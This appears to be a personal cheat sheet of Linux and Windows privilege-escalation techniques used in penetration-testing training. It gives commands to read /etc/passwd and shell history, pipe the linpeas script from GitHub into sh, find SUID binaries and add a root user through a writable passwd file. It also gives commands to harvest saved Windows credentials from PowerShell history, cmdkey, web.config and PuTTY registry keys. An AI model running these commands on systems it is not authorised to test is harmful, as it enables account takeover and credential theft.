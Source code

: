 # privellege escilation

## Enumaration

- ```hostname```

- ```uname -a```

- ```cat /proc/version```

- ```cat /etc/passwd```

- ```env```

- ```history```


To get a nice wordlist which will help you in bruteforcing for other user accounts you can cut /etc/passwd file to reduce the noise 

```cat /etc/passwd | cut -d ":" -f 1```


# linux

## Automated tools

## linpeas

* ```curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh```

* ```wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh```

## linenum

https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh


# Tactics

## kernel exploits 
Privilege escalation ideally leads to root privileges. This can sometimes be achieved simply by exploiting an existing vulnerability, or in some cases by accessing another user account that has more privileges, information, or access.


The Kernel exploit methodology is simple;

* Identify the kernel version
* Search and find an exploit code for the kernel version of the target system
* Run the exploit


Most of the cves can be found in [linux exploit cves]( https://www.linuxkernelcves.com/cves )


## Privilege Escalation: Sudo services
Any user can check its current situation related to root privileges using the ```sudo -l``` command.
[GFTOBINS](https://gtfobins.github.io/) is a valuable source that provides information on how any program, on which you may have sudo rights, can be used.



## SUID and GUID files
The first step in Linux privilege escalation exploitation is to check for files with the SUID/GUID bit set. This means that the file or files can be run with the permissions of the file(s) owner/group.
Finding suid binaries

```bash
find / -perm -u=s -type f 2>/dev/null
```

find - Initiates the "find" command

/ - Searches the whole file system

-perm - searches for files with specific permissions

-u=s - Any of the permission bits mode are set for the file. Symbolic modes are accepted in this form

-type f - Only search for files

2>/dev/null - Suppresses errors


## Exploiting a writable /etc/passwd

Understanding /etc/passwd

The /etc/passwd file stores essential information, which  is required during login. In other words, it stores user account information. The /etc/passwd is a plain text file. It contains a list of the system’s accounts, giving for each account some useful information like user ID, group ID, home directory, shell, and more.

It's simple really, if we have a writable /etc/passwd file, we can write a new line entry according to the above formula and create a new user! We add the password hash of our choice, and set the UID, GID and shell to root. Allowing us to log in as our own root user!

==================

# Windows

Depending on the situation, we might need to abuse some of the following weaknesses:

- Misconfigurations on Windows services or scheduled tasks
- Excessive privileges assigned to our account
- Vulnerable software
- Missing Windows security patches

Windows Users

- Administrative user
- Standard User

## Harvesting passwords from usual spots
The easiest way to gain access to another user is to gather credentials from a compromised machine.

## Powershell history

Whenever a user runs a command using Powershell, it gets stored into a file that keeps a memory of past commands

```cmd
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

## Saved Windows Credentials

Windows allows us to use other users' credentials. This function also gives the option to save these credentials on the system. The command below will list saved credentials:
```cmd
cmdkey /list
```

While you can't see the actual passwords, if you notice any credentials worth trying, you can use them with the runas command and the /savecred option, as seen below.
```cmd
runas /savecred /user:admin cmd.exe
```


## IIS configuration
Internet Information Services (IIS) is the default web server on Windows installations. The configuration of websites on IIS is stored in a file called web.config and can store passwords for databases or configured authentication mechanisms.Here is a quick way to find database connection strings on the file:

```cmd
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
```


## Retrieve Credentials from Software: PuTTY

PuTTY is an SSH client commonly found on Windows systems. Instead of having to specify a connection's parameters every single time, users can store sessions where the IP, user and other configurations can be stored for later use. While PuTTY won't allow users to store their SSH password, it will store proxy configurations that include cleartext authentication credentials.

To retrieve proxy info: 
```cmd
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```

## Sheduled Tasks

You can check sheduled tasks with the help of command 
```cmd
schtasks
```











